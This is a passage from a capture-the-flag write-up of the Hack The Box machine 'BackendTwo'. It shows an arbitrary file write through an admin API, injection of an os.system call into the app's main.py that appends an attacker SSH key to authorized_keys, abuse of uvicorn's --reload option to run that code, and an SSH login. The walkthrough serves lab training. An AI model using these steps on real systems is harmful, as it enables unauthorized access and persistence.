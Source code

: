 ```console
root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/file/L2hvbWUvaHRiL3Rlc3QudHh0 -H "Content-Type: application/json"
{"file":"pwn"}
```

I could write `pwn` to the file `/home/htb/test.txt`.

I implemented the process of uploading also.

<details><summary>part of file.py</summary></details>

### Foothold: Modifying source code

In `/home/htb/run.sh`, `exec /home/htb/.local/bin/uvicorn --reload --host $HOST --port $PORT "$APP_MODULE"` is executed.
The `--reload` option seems to be an option for development use, it detects changes in the source code and restart the server process.

[Settings - Uvicorn](https://www.uvicorn.org/settings/#development)

> --reload - Enable auto-reload. Uvicorn supports two versions of auto-reloading behavior enabled by this option. There are important differences between them.

Normally, if we just rewrite the source code, the server process will not read the modified source code, so will not be able to execute arbitrary code.
This time, however, I can use this option to execute arbitrary code.

Let's create the `/home/htb/.ssh` directory and have the process execute a command to write the public key to the authorized_keys file.

```console
root@kali:~/htb/Machines/BackendTwo# python3 file.py get_file -f /home/htb/app/main.py > main.py.org

root@kali:~/htb/Machines/BackendTwo# cp main.py.org main.py

root@kali:~/htb/Machines/BackendTwo# vi main.py

root@kali:~/htb/Machines/BackendTwo# diff main.py{,.org}
4,7d3
< os.system(
<     "mkdir /home/htb/.ssh; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOwZ4e30dPFfyNyZX1abjKMgj3ZH/7x5ijkMIjwx0HLF kali@kali' >> /home/htb/.ssh/authorized_keys"
< )
<

root@kali:~/htb/Machines/BackendTwo# python3 file.py send_file -f /home/htb/app/main.py -l main.py
res.status_code=200, b'{"result":"success"}'

root@kali:~/htb/Machines/BackendTwo# ssh htb@backendtwo.htb
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Aug  1 10:49:16 2023 from 10.10.16.11
To run a command as administrator (user "root"), use "sudo <command>".
```